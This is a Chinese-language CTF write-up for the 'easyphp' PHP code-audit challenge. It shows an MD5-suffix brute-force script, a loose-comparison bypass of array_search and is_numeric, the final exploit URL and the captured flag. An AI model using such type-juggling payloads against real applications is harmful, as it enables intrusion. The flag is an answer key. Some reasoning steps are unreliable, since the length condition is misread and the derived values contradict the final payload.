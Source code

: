 # php 代码审计

> 题目 攻防世界easyphp

* __看题__

题目如图，很密密麻麻一串代码

![image](https://github.com/uicciu/image/blob/main/PHP%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A11.png)

* __思路__

> 几个重点条件函数

```php
1. if(isset($a) && intval($a) > 6000000 && strlen($a) <= 3)
2. if(isset($b) && '8b184b' === substr(md5($b),-6,6))
3. $c=(array)json_decode(@$_GET['c']);
    if(is_array($c) && !is_numeric(@$c["m"]) && $c["m"] > 2022)
4.if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0]))
       $d = array_search("DGGJ", $c["n"]);
        $d === false?die("no..."):NULL;
5.foreach($c["n"] as $key=>$val){
            $val==="DGGJ"?die("no......"):NULL;
        }
        $key2 = 1;
```

* __求解__

### 1.if(isset($a) && intval($a) > 6000000 && strlen($a) <= 3)

意味：$a存在并且数值大于该数，且a的长度大于等于3

> function intval()

intval — Get the integer value of a variable

Note:

If base is 0, the base used is determined by the format of value:

1. if string includes a "0x" (or "0X") prefix, the base is taken as 16 (hex); otherwise,

2. if string starts with "0", the base is taken as 8 (octal); otherwise,
the base is taken as 10 (decimal).

>example

```php
<?php
echo intval(42);                      // 42
echo intval(4.2);                     // 4
echo intval('42');                    // 42
echo intval('+42');                   // 42
echo intval('-42');                   // -42
echo intval(042);                     // 34
echo intval('042');                   // 42
echo intval(1e10);                    // 1410065408
echo intval('1e10');                  // 1
echo intval(0x1A);                    // 26
echo intval(42000000);                // 42000000
echo intval(420000000000000000000);   // 0
echo intval('420000000000000000000'); // 2147483647
echo intval(42, 8);                   // 42
echo intval('42', 8);                 // 34
echo intval(array());                 // 0
echo intval(array('foo', 'bar'));     // 1
echo intval(false);                   // 0
echo intval(true);                    // 1
?>
```

所以$a=1e9/8/7

### 2.if(isset($b) && '8b184b' === substr(md5($b),-6,6))

意味：b非空且b的md5值最后六位为'8b184b'

自出脚本：

```php
<?php
$b=0;
while(1)
{
  if('8b184b' === substr(md5($b),-6,6)){
    echo $b;
    break;
}
$b++;
}
?>
```
结果如下：

$b=53724

### 3.$c=(array)json_decode(@$_GET['c']);

意味：c是一个json编码的array，先放一下

### 3.（2）if(is_array($c) && !is_numeric(@$c["m"]) && $c["m"] > 2022)

意味：$c是一个array类，c的m键不是数字，值要大于2022

放一个例子：

> '123a'和一个整数作比较时，它会转换成123；'a123'和整数作比较时，由于第一个位置是a，非整数，php则规定其值为0，即变成了0和123比较

得到结果：

c:{"m":"2023a"}

### 4. if(is_array(@$c["n"]) && count($c["n"]) == 2 && is_array($c["n"][0]))

意味：c还含有一个n键，是array类，并且有两个元素，第一个元素还是数组

结果得到：

单看4，认为$c["n"][0]="DGGJ"

### 5. $val==="DGGJ"?die("no......"):NULL;

感觉4，5，矛盾，所以应该绕过array_search()函数

> function array_search()

array_search — Searches the array for a given value and returns the first corresponding key if successful

存在PHP的弱类型比较 ==与===的区别

由于其应用==，我们与无数字字符串比较只要保证比较的值为0即可

因此得出结论：c中第二个值为0

最后根据json编码格式对c进行编码即可。

得到payload：http://ip:port/?a=1e9&b=53724&c={"m":"12345a","n":[[],0]}

夺得flag：cyberpeace{2f87e8aeec5e1909dc7f3dad473b7cd1}
